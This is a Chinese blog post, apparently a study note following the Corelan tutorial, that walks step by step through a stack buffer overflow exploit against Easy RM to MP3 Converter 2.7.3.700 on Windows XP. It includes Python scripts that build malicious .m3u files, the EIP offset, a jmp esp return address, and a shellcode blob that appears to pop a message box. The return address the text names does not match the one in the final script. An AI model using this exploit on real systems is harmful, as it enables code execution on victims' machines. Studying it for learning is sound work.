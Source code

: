 title: exploit编写教程1：基于栈的溢出
date: 2015-12-15 21:21:14
tags: exploit编写
---
一直都想系统学习exploit编写，最近找到个不错的网站[Corelan Team](https://www.corelan.be/),准备按照上面的教程学习，这是第一篇古老的buffer overflow
<!-- more -->

# 试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：Easy RM to MP3 Converter（版本2.7.3.700）
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个恶意的.m3u文件将触发Easy RM to MP3 Converter (version 2.7.3.700)缓冲区溢出利用。

# 漏洞触发
我选用Python语言编写脚本，首先构造一个30000个字符的.m3u文件，前面25000全为’A’，后5000个为’B’。
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 25000 + 'B' * 5000
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，出错，信息如下：

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0oss5wf7j30e5050759.jpg)

从上图可知，溢出之后的返回地址是0x42424242，也就是’BBBB’，这说明要覆盖的EIP在25000到30000之间。下面使用Immunity的查件mona来进行精确定位。

# EIP定位
使用Immunity Debugger -> open -> RM2MP3Converter.exe ，F9运行，然后点击load -> test.m3u
回到Immunity Debugger，创建包含5000个字符的pattern
在命令行输入：
```
!mona pattern_create 5000
```

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez0oyoodoej30i00dd0wn.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\RM2MP3Converter\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换crash.m3u中最后5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "test_pattern.m3u"
f = open(filename,'w')
data = 'A' * 25000
	
fp = open("p.txt",'r')
data += fp.read()
f.write(data)
f.close()
```

再次打开目标软件加载test_pattern.m3u，程序崩溃：

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p2ebjfwj30e6040q3n.jpg)

此时EIP为：386b4237
在命令行输入：
```
!mona pattern_offset 386b4237
```

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p476wlpj30mm0cp0wk.jpg)

我们看到EIP被修改的位置是25000 + 1103。
此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 26103 + 'B' * 4 + 'C'*100
f.write(data)
f.close()
```

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0p83itkrj30e503ymxw.jpg)

我们可以看到，EIP现在是4个B，偏移正确，下面就是如何修改 EIP

# 寻找shellcode存放的地址空间
再次使用上面.m3u文件，崩溃时，打开栈的窗口

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pbcdfiqj30ap0cfdhq.jpg)

我们看到在ESP此时为000FF730，EIP到这里还有4个字节。ESP开始用于存放shellcode。

# 查找jmp esp地址
再次加载目标程序，F9之后Pause，在CPU窗口，右键 Search For ->All commands in All modules，在之后的窗口输入jmp esp。

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez0pcw5iv0j30mx03uabs.jpg)

选一个7C874413（地址随便选，没有影响）。

# 构造最终的输入文件
```
#!/usr/bin/python
shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
"\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
"\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
"\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
"\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
"\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
"\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
"\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
"\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
"\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
"\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
"\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
"\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
"\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
"\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
"\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
"\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
"\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
"\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
"\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
"\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
"\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
"\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
"\x40\xFF\x54\x24\x40\x57\xFF\xD0");
	
ret = "\x7B\x46\x86\x7C";
filename = "crash.m3u"
f = open(filename,'w')
data = 'A' * 26103 + ret + '\x90' * 4 + shellcode
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，OK，成功了！！！

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pdv48mlj30bo04cwez.jpg)

# 参考文献
<https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/>
[exploit编写笔记1——基于栈的溢出](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2014/03/16/exploit-buffer-overflow/)




